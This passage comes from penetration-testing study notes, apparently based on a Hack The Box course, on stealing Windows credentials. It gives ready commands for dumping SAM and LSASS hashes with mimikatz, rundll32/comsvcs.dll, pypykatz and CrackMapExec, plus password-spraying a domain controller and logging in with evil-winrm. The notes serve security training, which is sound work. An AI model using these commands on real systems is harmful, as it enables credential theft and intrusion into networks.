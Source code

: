 Or use mimikatz locally.
```Powershell
PS C:\> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::sam /system:system.save /sam:sam.save
```

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <UserName> -p <Password> --sam`

---
## LSASS Attacks
Pulling hashes from memory by dumping the `lsass.exe` process memory.
- In case we have UI access, dump the process memory using the task manager. `lsass.DMP` file created in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`
<img src="https://academy.hackthebox.com/storage/modules/147/taskmanagerdump.png" style="width:50%;height:50%">

- In case of using command-line:
	- get the PID
		- CMD `tasklist | findstr lsass.exe`
		- PowerShell `Get-Process lsass`
	- then use [Rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32) & Comsvcs.dll to dump the process.
		``` PowerShell
		rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\Windows\Temp\lsass.dmp full
		```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the process dump.
- Use [Pypykatz](https://github.com/skelsec/pypykatz/blob/main/pypykatz/pypykatz.py) to extract hashes.
	``` bash
	pypykatz lsa minidump /home/peter/Documents/lsass.dmp
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <Username> -p <Password> --lsa`

---
## NTDS.dit Attacks
Extracting hashes from the NTDS database (ntds.dit) on a **Domain Controller**.

- Lunch Dictionary Attack if an account lockout policy is not enforced.
	``` bash
	crackmapexec smb <IP> -u <UserName_wordlist> -p /usr/share/wordlists/fasttrack.txt
	```
- If the dictionary attack worked and we got a DC creds, login to the DC system using `evil-winrm`.
	``` bash
	evil-winrm -i <IP> -u <UserName> -p '<Password>'
	```
